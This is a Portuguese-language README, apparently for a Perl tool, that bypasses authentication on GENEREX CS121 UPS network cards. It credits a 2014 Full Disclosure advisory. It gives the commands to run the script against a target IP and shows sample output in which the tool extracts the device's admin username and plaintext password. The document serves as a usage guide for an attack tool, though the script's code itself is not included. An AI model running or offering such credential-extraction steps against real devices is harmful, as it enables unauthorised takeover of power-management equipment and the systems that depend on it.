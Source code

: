 # Autenticação Bypass do CS121 da GENEREX
 - Este procedimento foi feito com base do CL121BL,B e F da CM comandos na versão HynetOS 5.XX:  
 -  Os créditos são totalmente do JKMAC da seclists.org:  
 https://seclists.org/fulldisclosure/2014/May/75  


 ## Utilização:
 - Dê permissão de executavel no arquivo sockets121.pl:  
 
 ```bash

 chmod +X sockets121.pl
```

 - A sintaxe do script é ./sockets121.pl (IP), ex: ./sockets121.pl 192.168.10.10  
  O processo leva cerca de 10 minutos,caso não apresente o login e senha execute novamente que aparecerá as informações:

 ```bash

./sockets121.pl  192.168.10.10

UPS: <VERSION> CS124-16M32M, ROM-Version: 2.5.X(pduc) - Aug 27, 2010 

Target system parameters (current):
Default Protocol : TCP/IP
Default Driver   : Ethernet
Mac address      : 00-03-05-00-00-00
IP address       : 192.168.10.10
Net Mask         : 255.255.255.0
Default Gateway  : XX.XX.XX.XX
DHCP             : 0.0.0.0
DNS              : 0.0.0.0
Port for tools   : 4000


Procurando login ... 
USER: admin, PASS: hg478wegzsu, ACCOUNT: none

```
